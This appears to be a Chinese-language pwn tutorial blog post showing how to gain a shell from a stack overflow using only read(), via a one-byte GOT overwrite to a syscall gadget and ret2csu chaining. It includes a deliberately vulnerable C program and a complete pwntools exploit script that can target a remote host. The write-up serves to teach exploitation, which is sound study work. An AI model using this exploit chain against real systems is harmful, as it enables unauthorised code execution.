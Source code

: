 ```yaml
---
layout: post
title:  "利用read实现RCE"
categories: pwn
tags: pwn 
excerpt: 利用read实现RCE
mathjax: true
---
```


* content
{:toc}

### Overview
常见的攻击技术如ret2libc 分为两步，1是泄露地址(libc地址),2是ROP构造system("/bin/sh") ,这是受ASLR随机化的影响libc地址未知需要泄露。 本文介绍的技术只用read函数就能实现RCE,整个程序中完全没有调用输出函数。

1. 基础知识

* 64 bit 中 syscall 是系统调用的中断，执行到syscall时，rax存放系统调用号(决定调用哪个函数),其余rdi,rsi,rdx,rcx,r8,r9 是1-6个参数。
* 在静态编译的程序中,ret2syscall借助ROP构造出execve("/bin/sh") 系统调用, 但是动态编译的情况下.text段没有syscall可用，但是libc中有syscall。

通过控制read函数地址调用到read中的syscall, 进而构造execve("/bin/sh").

pwn.c
```c
// gcc -fno-stack-protector -no-pie pwn.c -o pwn
#include <stdio.h>
#include <stdlib.h>

int main(){
    char buf[100];
    read(0, &buf, 500);
}
```


```
gdb-peda$ disassemble read
Dump of assembler code for function read:
   0x00007ffff7b04250 <+0>:     cmp    DWORD PTR [rip+0x2d24e9],0x0        # 0x7ffff7dd6740 <__libc_multiple_threads>
   0x00007ffff7b04257 <+7>:     jne    0x7ffff7b04269 <read+25>
   0x00007ffff7b04259 <+0>:     mov    eax,0x0
   0x00007ffff7b0425e <+5>:     syscall
   0x00007ffff7b04260 <+7>:     cmp    rax,0xfffffffffffff001
   0x00007ffff7b04266 <+13>:    jae    0x7ffff7b04299 <read+73>
   0x00007ffff7b04268 <+15>:    ret
   0x00007ffff7b04269 <+25>:    sub    rsp,0x8
   0x00007ffff7b0426d <+29>:    call   0x7ffff7b220d0 <__libc_enable_asynccancel>
   0x00007ffff7b04272 <+34>:    mov    QWORD PTR [rsp],rax
   0x00007ffff7b04276 <+38>:    mov    eax,0x0
   0x00007ffff7b0427b <+43>:    syscall
   0x00007ffff7b0427d <+45>:    mov    rdi,QWORD PTR [rsp]
   0x00007ffff7b04281 <+49>:    mov    rdx,rax
   0x00007ffff7b04284 <+52>:    call   0x7ffff7b22130 <__libc_disable_asynccancel>
   0x00007ffff7b04289 <+57>:    mov    rax,rdx
   0x00007ffff7b0428c <+60>:    add    rsp,0x8
   0x00007ffff7b04290 <+64>:    cmp    rax,0xfffffffffffff001
   0x00007ffff7b04296 <+70>:    jae    0x7ffff7b04299 <read+73>
   0x00007ffff7b04298 <+72>:    ret
   0x00007ffff7b04299 <+73>:    mov    rcx,QWORD PTR [rip+0x2ccbd8]        # 0x7ffff7dd0e78
   0x00007ffff7b042a0 <+80>:    neg    eax
   0x00007ffff7b042a2 <+82>:    mov    DWORD PTR fs:[rcx],eax
   0x00007ffff7b042a5 <+85>:    or     rax,0xffffffffffffffff
   0x00007ffff7b042a9 <+89>:    ret
```

在read+5的地方存在syscall , 需要1字节的覆盖就可以构造出一个syscall ; ret 

### 利用思路

1. 利用ret2csu 控制rdi,rsi,rdx 三个参数 , 将/bin/sh 写到.bss 段 , read(0,bss_addr,8)
2. 覆盖read_got 地址指向syscall , read(0,read_got,1) , read函数返回值为输入的字节数,只读入了一个字节，因此存放函数结果的 rax=1
3. 此时再次调用read 即可达成 rax=1 , syscall 。 对照unistd_64.h 中的系统调用表，rax=1 对应write函数, 此时要调整rax到0x3b , write 0x3b个字节即可。
4. 调用 read(bss_addr) 即可调用 execve("/bin/sh",0,0)

常规的ret2csu payload如下，可以控制三个参数,而且能利用csu的ret完成持续ROP。

```
def csu(end,front,fun_got,arg1,arg2,arg3):
    tmp = flat([end,0,1,fun_got,arg3,arg2,arg1,front,"B"*0x38])
    return tmp
```

csu代码
```
<front>  400590:       4c 89 ea                mov    rdx,r13
        400593:       4c 89 f6                mov    rsi,r14
        400596:       44 89 ff                mov    edi,r15d
        400599:       41 ff 14 dc             call   QWORD PTR [r12+rbx*8]
        40059d:       48 83 c3 01             add    rbx,0x1
        4005a1:       48 39 eb                cmp    rbx,rbp
        4005a4:       75 ea                   jne    400590 <__libc_csu_init+0x40>
        4005a6:       48 83 c4 08             add    rsp,0x8
<end>  4005aa:       5b                      pop    rbx
        4005ab:       5d                      pop    rbp
        4005ac:       41 5c                   pop    r12
        4005ae:       41 5d                   pop    r13
        4005b0:       41 5e                   pop    r14
        4005b2:       41 5f                   pop    r15
        4005b4:       c3                      ret
```

使用csu时 先执行end再执行front，但是end在front后，多次使用csu时可以直接串联起来。


### EXP

```
#!/usr/bin/env python2
# -*- coding: utf-8 -*-
from pwn import *
import sys
import os
exe = "./pwn"

r = lambda x:io.recv(x)
ru = lambda x:io.recvuntil(x)
rud = lambda x:io.recvuntil(x,drop=True)
rul = lambda:io.recvline()
sd = lambda x:io.send(x)
sl = lambda x:io.sendline(x)
sea = lambda x,y:io.sendafter(x,y)
sela = lambda x,y:io.sendlineafter(x,y)

context.terminal = ["tmux","splitw","-h"]
elf = ELF(exe)
context.arch = elf.arch
context.log_level = "debug"
if len(sys.argv)>1:
    io = remote(sys.argv[1],int(sys.argv[2]))
    #libc = ELF("./libc.so.6")
else:
    io = process(exe)
    libc = elf.libc

def z():
    gdb.attach(io)

offset = 120
end = 0x4005aa
front = 0x400590
bss = 0x00601000 + 0x100


def csu(fun_got,arg1,arg2,arg3):
    return flat([0,1,fun_got,arg3,arg2,arg1,front,"B"*8])

read_got = elf.got["read"]
# read(0,bss,7)
p1 = "A"*offset+p64(end)+csu(read_got,0,bss,7)
# read(0,read_got,1)
p1+= csu(read_got,0,read_got,1)
# write(1,bss,0x3b)
p1+= csu(read_got,1,bss,0x3b)
# execve("/bin/sh",0,0)
p1+= csu(read_got,bss,0,0)
p1 = p1.ljust(500,"A")

#z()
sd(p1)
data = "/bin/sh"
sd(data)
sd("\x5e")

io.interactive()

```

### 参考

[from-read-glibc-to-rce-x86_64](https://amriunix.com/post/from-read-glibc-to-rce-x86_64/?from=timeline)


